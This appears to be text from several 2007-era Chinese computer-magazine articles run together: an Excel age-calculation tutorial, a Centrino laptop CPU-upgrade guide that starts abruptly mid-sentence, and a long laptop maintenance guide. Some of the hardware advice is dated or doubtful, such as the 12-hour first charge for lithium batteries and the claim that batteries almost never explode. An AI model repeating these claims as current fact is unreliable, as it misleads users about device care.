在用EXCEL记录人员个人信息时，对于出生年月的记录的格式是多种多样的，有的采用“年月日”格式记录；有的则采用“年.月.日”记录。但是这样类型的数据是不能参与年龄计算的，只有日期格式的数据（年-月-日）才能参与年龄计算。因此，如果在人员个人信息中，出生日期不是日期格式的，必须先转换成日期格式才能计算年龄。

##### (1) “年月日”格式出生日期的转换

对于“年月日”格式的出生日期，如果我们要将转换好的日期格式的出生日期数据保存在D列，可以在D2单元格中输入以下内容：

```
=DATE(MID(C2,1,4),MID(C2,5,2),MID(C2,7,2))
```

公式说明：取C2单元格的1至4位（MID(C2,1,4)）、5至6位（MID(C2,5,2)）、7至8位（MID(C2,7,2)），然后以日期格式显示出来。

提示：将鼠标定位到D2单元格，当鼠标变成十字时，往下拖动填充柄，直到C列最后一行数据，这样D列中的出生日期数据都是日期格式的，并且与C列一一对应。

##### (2) “年.月.日”出生日期的转换

对于“年.月.日”格式的出生日期，我们只需利用文本替换函数Substitute将“.”替换为“-”就可以了。同样假设把转换好的日期格式的存在D列，我们可以在D2单元格输入以下内容：

```
=Substitute(C2,".","-")
```

最后拖动填充柄，转换好的日期格式数据就全部保存在D列中了。

### 2.年龄的精确计算

如果出生日期都已转换为日期格式，剩下的年龄的计算就变得简单多了。如果我们把计算出的年龄存放在E列，可以在E2单元格输入：

```
=DATEDIF(D2,TODAY(),"y")
```

最后拖动填充柄，计算出来的年龄就全部保存在E列中了。

怎么样，计算一个人的年龄是不是又准确又迅速呢？ ■

往往取决于各个时代CPU的技术和成本等因素，更为重要的是，这对于移动处理器与主板之间的兼容性密切相关，这些是我们在升级CPU之前必须要了解的信息。对于迅驰笔记本而言，迅驰1和迅驰2的CPU可以通用，同级别Pentium M和Celeron M也可以通用。现在，二手市场有不少商家卖工包的迅驰CPU，这可谓是一个不错的升级机会。

以很多第一代迅驰笔记本为例，Banias核心的移动CPU只有1MB二级缓存，Celeron M就显得更加孱弱了。如果能够升级到Dothan核心的Pentium M，那么性能会有不小的提升。对于I855GM移动芯片组而言，完全可以实现对Dothan核心Pentium M的支持。唯一要注意的是，部分Dothan核心采用533MHz前端总线，此时芯片组无法支持。

##### Step1：拆开笔记本

这是升级笔记本之前必须进行的一步，否则所有的硬件升级操作都无法实现。本本CPU的安装位置一般在键盘下，也有部分产品在背面。对于前者，需要卸下键盘，而后者就简单得多。在整个拆卸过程中，千万不能使用蛮力，尤其是当CPU位于键盘下的时候，必须顺着键盘的方向进行拆卸，否则很容易折断硬盘的数据线或者连杆。事实上，也有不少笔记本采用键盘覆盖周边卡口的设计，因此拆下键盘是最为关键的一步，此后就可以看到最关键的固定螺丝，展开下一步工作。其实拆开笔记本并没有统一的万能方法，但是只要细心观察，耐心琢磨，总能找到解决方法。如图14，风扇下面便是CPU。



##### Step2：卸下CPU风扇

笔记本CPU的热管风扇总是扁平设计的，一般打开盖板就能发现。事实上，此时的结构与台式机PC十分类似，只不过这里的风扇几乎没有厚重的散热片，但是拆除时依旧得小心翼翼，建议分别将各个螺丝拧下，然后取下CPU风扇，此时移动处理器就会呈现在我们面前。

##### Step3：更换CPU

这一步几乎没有任何难度，只是针对Micro-FCPGA封装的CPU要特别小心，千万别弄坏。将零拔插力插座的旋钮旋转90度即可取下CPU，然后按部就班地换上新的CPU。但是此时可不要忘记重新抹上导热脂，特别是在CPU核心高度存在区别的时候，散热问题必须十分小心。需要注意的是虽然可供升级的CPU频率种类很多，大家都习惯性的喜欢选择最高主频的CPU，但往往忘记考虑老机本身的散热套件的散热能力，如果超出了本身散热能力，则对机器的稳定性会造成很大影响。一般升级频率的幅度在400～600MHz为佳，同时要在安装成功后，做好温度测试，甚至可以考虑更换一个更好的散热器。

##### 写在最后：

最火爆的游戏让人得以放松身心，最新鲜的数码应用也让人神往，畅游网际世界更是令人如痴如醉……但面对有着“硬件高要求”的新游戏和新应用，原有的配置可能很难胜任了。如果想要玩得更顺畅，那么动手升级几乎是必然的。当然，升级并非一味地大手笔投入，而是应该花最少的钱，玩最新的花样。最后，祝愿大家升级成功！ ■

### 独门秘技：2007笔记本维护完全指南

◆文/彭文波

随着数码技术的发展和价格的平民化，曾经高高在上的笔记本电脑已经开始“飞入寻常百姓家”。在这种大趋势下，有关笔记本电脑应用的新型技术层出不穷，比如使用LED液晶显示器、燃料电池、闪存式硬盘等等。在这种趋势下，笔记本电脑精致小巧、移动性强等优点也更进一步体现出来。这对最终用户来说，无疑是件大好事。在这种应用特征的背后，也注定了笔记本需要更多的呵护。因此，对于用户来说，正确合理地使用笔记本电脑，不仅可以充分享受新技术带来的快感，保证数据的安全，还可以明显延长笔记本电脑的使用寿命。本专题由浅入深，从笔记本新技术发展的角度来讲解维护，结合典型故障的解决，帮助用户充分享受使用笔记本电脑所带来的乐趣。

#### 一、未雨绸缪篇：笔记本电脑的预防性维护

##### 1. 尽量保持良好的运行环境

对于笔记本来说，环境的好坏不容忽视，这对性能发挥具有很大的影响。从环境的角度来看，大致可以分为以下几点。第一，保持一个干净、整洁的工作环境。现在，很多用户习惯于在工作台上摆满书籍、茶杯、饮料、零食等物品。其实，这都可能成为笔记本电脑的定时炸弹，稍不注意就可能摔倒或者洒到键盘和屏幕上，造成笔记本电脑的主板短路，影响电脑的正常运行。另外，空气中的灰尘是电脑硬件的天敌，如果灰尘太大，吸附在电脑硬件上，日久天长就会腐蚀各配件的电路板，容易产生静电。

第二，要避免在高温环境下使用。笔记本电脑本身就是一个大的热源，虽然笔记本自带了风扇，但室温过高往往也会造成一定的影响。因此，建议放置笔记本的房间尽量保持通风，理想工作温度可以设定在10℃ - 35℃，尤其不要将笔记本放在高温热源附近，除非是专用的工业或军用笔记本电脑。

第三，注意保持环境湿度。在天气比较潮湿的时候，若长期使用电脑，最好每天开机；若不使用电脑，最好将电脑清理干净后将其包裹好，并放入包裹箱中，否则电脑会因为潮湿或灰尘等原因引起配件损坏。一般情况下，电脑的相对湿度可以保持在30% - 80%。特别需要注意的是，若天气潮湿度很高，比如在气温比较低的时候，显示屏就容易出现水汽，这种情况下，千万不要给电脑通电。另外，在湿度太低的情况下，同样不利于笔记本电脑配件的使用。

第四，注意磁场的干扰。很多用户喜欢在电脑周边摆放一些大功率的音箱，其实，这很容易产生较大的磁场，对以磁性材料作为主要介质的电脑存储设备很不利。因此，不要将磁盘、CD、信用卡等带有磁性的东西放在笔记本电脑上，如果磁场很强，很可能会产生资料莫名其妙丢失的故障，甚至会造成显示器出现异常抖动或偏色。

第五，尽量使用标准电源环境。这是一个很容易忽视的地方。其实，笔记本对电源要求比较严格。交流电的正常范围应该在220V ± 10%，频率范围是50Hz ± 5%；直流电池要尽可能使用笔记本电脑原装电池，一般笔记本电脑的电池容量为3000mAh - 4000mAh，电池超过6000mAh的不多。因此，用户要努力为笔记本电脑营造一个良好的使用环境，比如：多注意环境卫生，勤于清理笔记本电脑上的积尘、积垢等。毕竟，操作者也长期生活在这样的环境中，不洁净的环境对人的健康也会产生一定影响。

##### 2. 良好的笔记本电脑操作习惯

对于长期习惯台式机操作或刚刚接触电脑的用户来说，可能动作会比较“粗鲁”。因此，在使用笔记本电脑时，个人使用习惯对电脑的影响也很大，养成良好的使用习惯对电脑维护有很大的好处。第一，定期查杀病毒和系统维护。使用闪存、光盘之前，最好对其进行检查。由于杀毒软件对压缩文件里的病毒无法进行查杀，因此，安装或使用软件后，最好使用专用插件扫描工具对恶意插件进行扫描。

第二，定期进行笔记本整体维护。一般来说，以一个月为周期对电脑进行维护是比较合理的。如果短时间内频繁地使用电脑，也可以一个月内进行重点维护。另外，如果笔记本电脑使用的时间比较长，如半年以上，内部就会有很多灰尘，从而导致接触不良等故障，因此在半年内进行重点维护也很有必要。

第三，正确进行开关机。正常的开机顺序是：“打开外设（如扫描仪、打印机等）的电源→打开显示器电源→打开主机电源”，而关机的顺序则正好相反。

第四，笔记本电脑关机处理。关机时，应先关闭所有程序，再按照正常顺序退出。关机后一段时间内，不能频繁地做开机关机动作，因为这样对硬件尤其是硬盘的冲击比较大。一般关机后距离下一次开机的时间至少应有15秒钟以上。特别要注意的是，当电脑进行读写数据等工作时，要避免进行关机操作，这很可能会对硬盘、光驱等硬件造成一定损坏。

第五，对笔记本电脑意外关机情况的处理。

如果出现意外关机，应尽快进行硬盘扫描以修复错误。因为在这种情况下，硬盘的某些簇的链接会丢失，对系统会造成潜在的风险；如不及时修复，则会导致某些程序紊乱，甚至危及系统的稳定性。

上述基础性操作更体现了对笔记本电脑的整体维护，由于笔记本电脑技术发展比较快，新技术对使用环境和操作规范都提出了很高的要求。因此，用户在使用时，应尽量遵守上述操作规范，在此基础上，把握笔记本各个重点配件的技术特性，从而实现整体意义上的维护。

#### 二、各个击破篇：笔记本配件维护及典型故障

笔记本电脑需要重点维护的配件包括：液晶显示屏、笔记本电池、笔记本硬盘、光驱、外壳、外部接口、键盘等。通过分门别类地了解和维护，对各个分类重点进行把握，就很容易摸透笔记本电脑的“脾气”了。

##### 1. 液晶显示屏维护与典型故障

在整个笔记本，屏幕成本占了很大比重。而液晶屏幕一向是笔记本电脑的耗电大户，大约占笔记本电脑总耗电量的30%以上。Windows Vista系统推出后，对笔记本电脑整体性能也有了更高的要求，但随之而来的是笔记本电脑整体功耗的增加。另外，在使用过程中，如果有尘土等杂物落在屏幕上，即使是使用专用的清洁屏幕的布去清洁，也非常容易造成液晶屏幕的划痕。如果用酒精之类的化学物品去清洁，对屏幕会有一定的腐蚀作用。因此，对液晶显示屏的保护就成为整个笔记本维护中的重要组成部分。

###### (1) 选择一款优质的屏幕保护膜

使用保护膜可以增加屏幕可视角度、保持屏幕清洁，还可以防止划伤屏幕等。不过，选择保护膜时，需要注意以下事项。首先，要保证不含胶水。市场上目前销售的保护膜产品大多是仿制日本物料而制成，缺乏PET合成技术，只采用了胶水将硅及PET结合。当用户的数码产品使用时，所产生的热力会令胶水在温度下产生变化，造成部分硅胶开始脱落在液晶显示屏上，极难再清洁干净，造成液晶屏损坏。其次，部分拥有液晶显示器的数码产品都是较多于户外使用，消费者应选择使用具有防反光功能的液晶保护膜。此外，具有防刮花及防手指模也是需要重点考虑的功能之一。

###### (2) 日常操作规范及误区操作

一个液晶屏幕正常的使用时间是5年左右，随着时间的推移，笔记本的屏幕会越来越黄，这是屏幕内灯管老化的现象。我们可以从以下几个误区来分析笔记本屏幕保护的要点。

##### 误区1：用软布或纸巾擦拭液晶屏幕。

对于灰尘，可以先用气吹将灰尘尽量吹去，然后使用鹿皮轻轻擦拭，一般可以选用高档眼镜布，不过效果并非最佳。

##### 误区2：用清水清洁液晶屏幕。

使用清水，液体极易渗入机器内部，这样会造成设备电路短路，从而烧坏昂贵的电子设备。对于指纹和油污，清水照样无能为力。一般情况下，最好使用液晶屏专用擦拭布沾取少许清水来清洁屏幕，然后轻轻擦拭。使用过程中，首先，把清洁剂喷适量在专业的液晶清洁布上，放置2~3秒，等清洁液被清洁布充分吸收；然后，用吸收清洁液的清洁布，顺着同一个方向轻轻擦拭液晶屏幕表面，直到屏幕上的污渍被彻底清除干净为止。擦拭时力度要轻，否则显示器屏幕会因此而短路损坏。切忌用手指擦除以免刮伤、留下指纹。如图1所示。



> **小技巧**
除了清洁方法，选择科学适用的液晶清洁液也很重要，选择市场上的产品时应注意：(1) 闻味道看颜色。无论是生物类还是化学类的，凡是有刺激性味道(含香型味道)都是不适宜用于LCD屏幕清洁的，只有无味无色的才是适用的。真正适用的液晶清洁剂PH值应为中性且不应添加任何颜色。值得指出的是，有些湿纸巾也具有刺激性味道，也是要谨慎选择的。(2) 看检测报告。只有通过权威检验机构专业检测的产品才值得信任，专业产品一般都应通过SGS等专业检验机构的检验。(3) 看技术背景。一般而言，具有LCD行业服务背景的专业产品更值得信赖，非专业的化工企业对LCD了解有限，往往只满足了清洁的功能，而不能满足LCD清洁的安全性与无害性。

##### 误区3：用酒精和其他一些化学溶剂清洁液晶屏幕。

一般来说，酒精是一种常用的有机溶剂，可以溶解一些不容易擦去的污垢，比较适合清洁显示器外壳。但尽量不要用酒精来清洁LCD，因为现在的LCD屏幕上涂有特殊的涂层，使屏幕具有更好的显示效果，一旦使用酒精擦拭屏幕，就会溶解这层特殊的涂层，对显示效果造成不良影响。目前，比较合适的方法是使用LCD保护膜。

##### 误区4：待机节电和使用屏幕保护程序。

一般情况下，不需要打开屏幕保护程序来防止屏幕老化，那样还会消耗更多的电力。液晶显示屏幕越亮，所消耗的电力越多，为了要有更长的电池使用时间，应尽量避免将屏幕亮度设定太高。而且，长时间不使用电脑时，可通过键盘上的功能键暂时将LCD屏幕的电源关闭。

##### 误区5：笔记本电脑打开和关闭操作比较随意。

笔记本电脑的液晶屏由许多层的反光板、滤光板及保护膜组成，显示屏非常娇弱，剧烈的移动或者震动可能会损害显示屏质量；如果破坏了显示器的内部液晶分子，会使得显示效果大打折扣。因此，在笔记本电脑屏幕保护方面，最忌讳的就是压、顶、刮和不正确的屏幕开启方式。另外，不要用力盖上液晶显示屏的屏幕上盖，或者放置任何异物在键盘及显示屏幕之间，避免上盖玻璃因重压而导致内部组件损坏。

> **小技巧**
在运输和携带笔记本电脑的过程中，注意不要让屏幕和顶盖受到压迫，这可能会造成屏幕的排线断裂和顶盖碎裂。如果笔记本电脑使用指点杆鼠标，可将指点杆帽取下另外存放，这样能够保护屏幕不容易受到刮伤。

###### (3) 典型故障及解决办法

故障一 笔记本电脑使用过程中出现以下问题：坏点，白斑，黑屏和出现亮线。

解决办法：对于上述典型的屏幕问题，分述如下。

##### 第一，坏点。

主要有真坏点和假坏点，前者和厂家有关，很难修复；而假坏点则是暂时性的，通常是由于该像素的原色点接触不良，其特征是出现位置不固定，时有时无。遇到这种情况，可以找一个火柴棍（也可以是其他不太硬的钝头小棒）轻轻在坏点出现的位置按压几下（切忌用力），有时候可消除假坏点。但在试过之后如果发现无法修复，就不要再去尝试。

##### 第二，白斑。

通常是笔记本电脑屏幕内的反射层出现问题所导致的，最常见的情况就是屏幕受压或者被尖锐物体碰撞造成白斑，如果白斑才刚刚出现，检查屏幕顶盖是否有变形或者屏幕表面有无被撞击的痕迹。

##### 第三，亮线。

屏幕上出现一个或者多个像素宽度的亮线，在屏幕上显示为横向或者纵向的一条线，颜色不会改变，在某些背景下就特别明显。亮线的特征是位置固定不变，而且是跨越整个屏幕的横或竖直线。这种原因通常是屏幕的排线松动，可以尝试前后摇动一下屏幕并且用手按一下屏幕四周的边框，如果亮线有闪动或者变化，说明确实是屏幕的排线问题，应该赶快送修。

##### 第四，黑屏。

原因分两种，一种是屏幕或者接线彻底坏掉，完全没有任何显示；另一种是屏幕的背光不能点亮，看起来屏幕就是黑的。判断原则是，把机器拿到光线很强的地方，进入系统（不管有没有显示），然后对着光从各个角度看屏幕，如果看到屏幕上隐隐约约地显示，则说明是背光不能点亮的问题；如果看不到任何显示，说明屏幕或者接线已经损坏。

“故障二”开机后无显示，电源灯亮，其他指示灯也亮。检查内存的声音提示，如IBM的A、T系列，声音提示“嘟、嘟、嘟、嘟……”，细心观察液晶屏，隐约会有显示内容。

解决办法：针对这种情况，可以从以下角度进行分析：液晶屏灯管烧坏或灯管自然老化（开始时可发现液晶显示有些偏红，这是出现屏暗的先兆）；高压板坏了，可能是由于电压不稳的原因，也可能是自然老化，另外温度过高也是严重的杀手；屏线出现断线现象；主板没直流电压供给高压板。如果出现以上故障，建议非专业人员一定不要更换，后果可能会导致液晶显示出现线条。如果问题十分严重，要考虑换个液晶屏。

由于笔记本屏幕在整个维护中占据着十分重要的地位，因此，用户还应重点关注液晶屏幕技术的新发展，把握最新的技术动态。随着LED技术的不断改进和Windows Vista操作系统耗电量的增加，以及双屏电脑的推出，关于笔记本电脑屏幕的维护也将越来越重要。

##### 2. 笔记本电池维护与典型故障

笔记本电池效能直接关系到笔记本电脑在缺少电源的环境中的工作能力。但是，在笔记本电脑的众多组件中，电池是一个不折不扣的消耗品。一般笔记本电池都是通过化学反应来存储电子能量的，因此它的容量和以下因素密切相关：温度、未使用时间的长短以及使用次数等。实际操作中，综合考虑上述因素，并养成良好的操作习惯，不但可以降低能源的消耗，还可以延长电池的使用寿命。

###### （1）日常操作及使用方法

常见现象和使用方法如下：

- 第一，新电池使用。
对于新电池来说，电池容量一般很少，这是由于环境湿度和非绝对绝缘环境的影响，电池都存在自然消耗的现象。电池经过长时间的存放，已经自然放电完了，这并不影响电池的容量。第一次充电时，应连续把电池充电到12个小时，并循环地完全充、放电三次以唤醒新电池。这是因为，新电池有可能因为电芯的化学特性而未能达到最佳状态。要获得最大的性能，电池的化学材料必须被完全激活。

- 第二，尽可能利用电源适配器。
保存电池电力最简单的做法是：每逢在有可供利用的交流电源时，就避免使用充电电池。由于变压器的体积小，重量轻，随身携带非常方便，所以应尽可能地时常利用电源适配器。这样在真正需要用到电池的时候，手边随时都会有一个充满的电池。另外，需要注意的是，在可提供稳定电源的环境下使用笔记本电脑时，认为将电池移除可延长电池寿命是不正确的。因为，当电池充满之后，电池中的充电电路会自动关闭，所以不会发生过充的现象。尤其需要注意的是，电源适配器使用要参考国际电压说明，尽量符合国家标准。如图2所示。

- 第三，保存电池容量的误区与正确操作方法。
锂电池在一个寿命周期内一般可以进行300至500次的充放。因此很多人认为，只要少用电池，这样就可以在一定程度上起到了延长电池寿命的作用。但是他们忽略了电池这个物理原件的本性，当电池装配结束走下生产线后，它的内部生命时钟就随即开始走动。因此，即使电池搁置不用，锂电池的使用寿命也仅仅在两到三年就可以寿终正寝了。而导致电池容量下降的原因则是由于氧化所引起的电池内部电阻增加。当电解槽电阻达到某个点时，尽管这时候电池依旧可以充满电，但电池却已经不能释放储存的电量了。因此，造成锂电池老化的速度是由温度和搁置保存时的充电状态而决定的。以下表格可以说明这两种因素的不同情况对电池容量的影响。

表1 电池充电容量比较表
| 温度 | 充电40%后搁置保存，一年后电池实际可用容量 | 充电100%后搁置保存，一年后电池实际可用容量 |
| :--- | :--- | :--- |
| 0°C | 98% | 94% |
| 25°C | 96% | 80% |
| 40°C | 85% | 65% |
| 60°C | 75% | 60%（三个月后） |

由表1可以看出，高充电状态和过高的温度加快了电池容量的下降。因此，如果电池长期不用，尽量将电池充到40%左右后，放置于阴凉地方保存。

- 第四，锂电池合理充电和放电。
对于锂电池来说，最好是进行部分放电，而不是完全放电，并且尽可能避免经常的完全放电。过分低放电的结果只能让电池提前报废，因为如果电池放到每单元2.5伏特以下，电池内部的安全电路就会开动，这时电池就会出现问题。因此，为了避免这类情况，尽量不要在储存电池之前将它的电量放得一干二净，而是应该在储存之前充一些电，并且在再次使用之前首先充满电。

- 第五，电池电力校正。
当笔记本电脑使用一段时间后，用户常常会感觉电池的使用时间越来越短，其实这是因为笔记本电池在不断充、放电的过程中，有时BIOS所侦测到的电量会与电池实际电量不符。在这



种情况下，虽然电池还有一点电量，但BIOS却会判断电量用完，进而进入关机状态。为了解决这个问题，一些厂商在笔记本电脑BIOS内加入了“电池校正（battery calibration）”功能，帮助使用者将笔记本电脑的电池充满，再放电到彻底没电，然后再次充满，如此对于长期没有彻底放电所造成的电量误差，有一定的校正作用。一般情况下，建议平均三个月进行一次电池电力校正的工作。

> 电池校正的方法。首先进入BIOS设置，切换到“POWER”选项卡；然后，将光标移至“start battery calibration”选项，按下回车键执行；根据提示信息，给笔记本电脑接上外接电源，等待一段时间待电池的电量充满；当画面上出现“please remove AC adapter”信息时，表示电量已经充饱，然后进行放电操作，先拔掉外接电源，并让笔记本电脑持续开机，直到电量耗尽。需要注意的是，这个操作会耗去一段时间，用户可等到放电完毕再返回操作即可。电池放电完毕并自动关机后，不要开启笔记本电脑电源，马上再次接上变压器进行充电，等到充电指示灯（一般为橘色灯）熄灭后，电池校正的工作即可完成。

###### （2）电池使用误区及说明

在笔记本电池日常维护中，有不少误区，比较典型的问题有：

- 误区1：电池需要定期地校正，每月一次彻底充放。

对于不同类型的电池，应区别对待。对于记忆效应很强的镍氢电池，这是必须的工作；但对于锂电池，这个周期略显频繁，锂电池虽然没有完全消除记忆效应，但已经大大减弱了记忆效应。如果使用电池很频繁，建议将电池放电到比较低（大约10%~15%）再充电；但是，如果放电到连机器都开不了（0~1%），就属于对锂电池有较大损伤的深度放电，一般来说每两个月操作一次即可。如果很少使用电池，每三个月一次这样的操作即可。

- 误区2：兼容充电器也可以使用。

笔记本电脑的耗电远大于手机，最极端的情况下，电源需要同时为电池充电并且应付机器全速运行所需的供电，笔记本电脑一般没有兼容充电器，因为各个机型的电压、电流，甚至接口都不同，能够通用于多种笔记本的“兼容充电器”很可能比原装的充电器还要贵。

即使是接口相同，如果电压和电流低于机器的标称数值，机器全速工作的时候电池也可能无法获得足够的充电电流，这对电池的损害是很大的。如果电压和电流低于标称值太多，甚至会发现根本无法开机或者能开机却无法充电，因此选择电源的时候最好要选择和原配相同的，实在无法找到的话，应注意电压和电流一定要符合机器的标称数值，同厂的不同产品接口一般相同，但是电压和电流可能不同，这点需要小心操作。

- 误区3：电池不行了，还可以自己换电芯。

许多品牌的笔记本电池设计都有自锁功能，一旦电芯脱离控制电路，电路就进入自锁状态，只有使用特定的手段才能解开。在此之前，控制电路将不会工作，也就是说电池等同报废，笔记本电池电芯不是可以随意换的干电池，如果实在需要换电芯，建议通过专门的电池维修公司进行。

- 误区4：99%之后一直充不到100%，继续充就会爆炸。

笔记本电池爆炸的机会几乎没有，最多是发出高热而导致外壳融化，但很少会引起明火，少数事故是由于生产的时候工艺不良，在使用中导致短路而导致的，而这种短路大多数都还会被电池中的保护电路断开，而对电路不会造成更大的损害。

总之，电池是拿来使用的，只要注意合理地使用和保管，则没有必要对其过分地呵护，让它尽可能地为它的主人贡献更多的效能才是最重要的。

###### （3）典型故障及解决办法

故障：电池自动强行断电的情况。在使用电池的时候，全速运行造成电流过大而自动保护。例如，从光驱将DVD碟片内容采集入移动硬盘，这时主机和外设都在大量耗电，就有可能使得电流超出电池的保护标准。还有一种常见情况是，笔记本电脑在炎热的环境中使用电池高负荷运作，这样环境温度加上电池自身放电产生的热量可能会超出电池保护电路预设的温度。

解决办法：对于第一种情况，只要断开外设等待10分钟左右重新开机即可。至于后一种情况，应该取出电池放置在温度较低的地方，半小时后就可以恢复正常了。此外，还可以使用电池校正功能，但不要太频繁，频繁的深度放电会降低电池的使用寿命。

##### 3. 键盘和键帽维护与典型故障

键盘和键帽也是笔记本的重点维护部分，比如，清洁笔记本电脑键盘时，一小滴水也会造成很大的损失。

###### （1）常用维护方法

首先，在操作笔记本电脑时，建议不要配带手表或手链打字，以避免在操作中对键盘及外壳造成磨损。

其次，清洁键盘时，首先关闭电源，然后用清洁照相机镜头的高压喷气罐，将灰尘吹出，或使用掌上型吸尘器来清除键盘上的灰尘和碎屑。另外，买一把不会掉毛的好刷子，如大号油画笔，把笔记本电脑关机后侧立，然后仔细清扫键盘的缝隙。特别注意：刷子要保持干燥不可有水。完成后，再用一滴洗洁精倒入一杯水中，用棉布沾湿干后擦拭键盘表面，晾干后就可以使用了。如图3所示。



###### （2）常见故障及解决办法

故障一：边用笔记本边喝茶，这是很多人使用笔记本电脑时的一个习惯，但是，不慎把水洒向了键盘，怎么办？

解决办法：假如不慎泼水入键盘，首先应在第一时间把机器倒转过来，以免水流入主板造成灾难性后果。然后，拔掉电源与电池强行关机，单纯按电源开关强行关机是不够的，因为主电池仍然可能短路，所以一定要取下电池和断开电源适配器。同时，用干布吸干键盘表面的水，尝试拆下键盘擦干背面的水，再阴干，同时主机内部也最好用冷风吹一天，不然开机可能就是“一缕青烟上西天”。最后，如果发现在水干之后有部分的按键失灵，请再次检查键盘积水是否已经干透，重点检查键盘引出接线的位置，一般来说现在的笔记本电脑键盘都不会因为一次泡水就彻底损坏了，只要处理得当还是有很大希望避免的。

故障二：键盘操作中，出现键帽脱落装不回去或者键帽支架断裂的情况，应该怎么处理？

解决办法：首先，确保支架已经正确安装，用手指甲轻轻挑一下支架，如果它能正常上下运动就没问题，否则请先把支架装好，在安装不正确的支架上强行装入键帽，很容易造成损坏。其次，如果支架已经装好，键帽中心部位会有一个凸起，这个凸起和支架中心的弹性橡胶中间的下凹部分必须对应。安装方法是，先轻轻地把键帽放在支架上，缓缓地前后左右移动，直到键帽背面的凸起对应了弹性橡胶中间的下凹部位，正确对准后会感觉移动键帽的时候受到弹性橡胶的阻力，这时才可以把键帽压下，听到正确的喀哒声后，在键帽的四角用力按一下，确保四个卡榫都已经正确地咬上支架，键帽就可以使用了。最后，键帽支架是很细小脆弱的部件，一定要小心操作。

支架断裂的情况比较麻烦，可以看看断掉的支架是否还能够勉强使用，如果可以就强行装上，以后使用小心就可以了，如果支架已经断裂到无法再使用，那么可以考虑把最少用到的键的支架换过来。

##### 4. 硬盘维护与典型故障

硬盘是电脑中较容易损坏的配件，但其中有相当一部分损坏的原因是用户操作不当。其实，只要在日常使用中注意一些小技巧，便可以减少硬盘出故障的可能性，从而延长其正常的使用寿命。

###### (1) 硬盘日常维护

做好硬盘维护，可以从以下几方面注意。

第一，防止笔记本受到震动。

硬盘是十分精密的存储设备，进行读写操作时，磁头在盘片表面的浮动高度只有几微米；即使不工作时，磁头与盘片也是接触的。硬盘在工作时，一旦发生较大的震动，就容易造成磁头与资料区相撞击，导致盘片资料区损坏或刮伤磁盘，丢失硬盘内所储存的文件数据。因此，应尽量在平稳状态下使用，避免剧烈晃动计算机。在工作时或关机后主轴电机尚未停顿之前，千万不要搬动电脑或移动硬盘，以免磁头与盘片产生撞击而擦伤盘片表面的磁层。此外，在硬盘的安装、拆卸过程中也要加倍小心，防止过分摇晃或与机箱铁板剧烈碰撞。

第二，注意读写过程中最好不要突然断电。

目前，很多硬盘的转速大都是7200转，在进行读写时，整个盘片处于高速旋转状态中，如果忽然切断电源，将使得磁头与盘片猛烈磨擦，从而导致硬盘出现坏道甚至损坏。所以在关机时，一定要注意机箱面板上的硬盘指示灯是否还闪烁，要在硬盘已经完成读写操作之后才可以按照正常的程序关闭电脑。

第三，减少针对某一扇区的频繁操作。

如果长时间运行大型软件或玩游戏，磁头会长时间频繁读写同一个硬盘位置（即程序所在的扇区），而使硬盘产生坏道。如果经常使用一些内存需求很大的软件，应考虑增加内存，以减少大量的文件交换时在硬盘上进行的读写操作。



另外，如果长时间使用一个操作系统，也会使系统文件所在的硬盘扇区（不可移动）处于长期读取状态，从而加快该扇区的损坏速度。如图4所示。

第四，安排恰当的使用时间。

在一天中，最好不要让硬盘的工作时间超过10个小时，而且不要连续工作超过8个小时，应该在使用一段时间之后就关闭电脑，让硬盘有足够的休息时间。另外，开关机过程是硬盘最脆弱的时候，此时硬盘轴承转速尚未稳定，若产生震动，则容易造成坏轨。

第五，定期整理碎片。

当不连续磁盘空间与磁盘碎片数量不断增多时，就会影响到硬盘的读取效能。如果数据的增删操作较为频繁或经常更换软件，则应该每隔一定的时间（如一个月）就运行Windows系统自带的磁盘碎片整理工具，进行磁盘碎片和不连续空间的重组工作，将硬盘的性能发挥至最佳。

###### (2) 典型故障及解决方法

故障：硬盘故障导致无法开机。现象如下：出现硬盘故障的提示，不能正常开机。

解决办法：首先要考虑硬盘本身的故障，此类问题的预防方式，除了避免在开关机过程摇晃计算机外，养成备份数据的习惯是最重要的。其次，是操作系统损毁或中毒造成无法开机。针对此种情况，需要考虑将重要数据备份于不同分区中，在保证数据安全的基础上，重新安装操作系统。

##### 5. 光驱常见故障与维护

笔记本电脑光驱使用频率高，寿命的确很有限。因此，很多商家对光驱部件的保修时间要远短于其他部件。

###### (1) 光驱的日常维护方法

影响光驱寿命的主要是激光头，激光头的寿命实际上就是光驱的寿命。延长光驱的使用寿命，应该从激光头的保养做起。

第一，减少笔记本光驱的工作时间。

为了减少光驱的使用时间，以延长其寿命，使用电脑的用户在硬盘空间允许的情况下，可以把经常使用的光盘做成虚拟光盘存放在硬盘上。如教学软件、游戏软件等存放在硬盘中，这样以后可直接在硬盘上运行，并且具有速度快的特点。同时，尽量少放DVD影碟，确保光驱长寿。

第二，定期清洁保养激光头。

光驱使用一段时间之后，激光头肯定会有不少灰尘，从而使光驱读盘能力下降。具体表现为读盘速度减慢，显示屏画面和声音出现马赛克或停顿，严重时可听到光驱频繁读取光盘的声音。这些现象对激光头和驱动电机及其他部件都有损害。所以，使用者要定期对光驱进行清洁保养或请专业人员维护。如图5所示。



> 小贴士
使用专用光驱清洁盘，定期清洁激光头。光驱采用了非常精密的光学部件，而光学部件最怕的是灰尘污染。灰尘来自于光盘装入、退出的整个过程，光盘是否清洁对光驱的寿命也直接相关。所以，光盘在装入光驱前应作必要的清洁，对不使用的光盘要妥善保管，以防灰尘污染。

第三，保持光驱水平放置，正确进行开、关盘盒操作。

此外，由于光驱内所有部件都非常精密，用户在拆开及安装光驱的过程中一定要注意方式和方法，注意记录原来的固定位置。特别是激光头老化，需要调整驱动电源来提高激光管功率时，一定要请专业维修人员调试，以防自己调整得过大，使得激光头烧坏。

###### （2）笔记本光驱常见故障

- 首先，是操作故障。包括：驱动出错或安装不正确造成在Windows或DOS中找不到笔记本光驱；笔记本光驱连接线或跳线错误使笔记本光驱不能使用；CD线没连接好无法听CD；笔记本光驱未正确放置在托盘上造成光驱不读盘；光盘变形或脏污造成画面不清晰或停顿或马赛克现象严重；拆卸不当造成光驱内部各种连线断裂或松脱而引起故障等。
其次，是必然性故障。这是在笔记本光驱使用一段时间后必然发生的故障，主要有：激光二极管老化，读碟时间变长甚至不能读碟；激光头组件中光学镜头脏污/性能变差等，造成音频/视频失真或死机；机械传动机构因磨损、变形、松脱而引起故障。需要说明的是必然性故障的维修率不仅取决于产品的质量，而且还取决于用户的人为操作和保养及使用频率与环境。
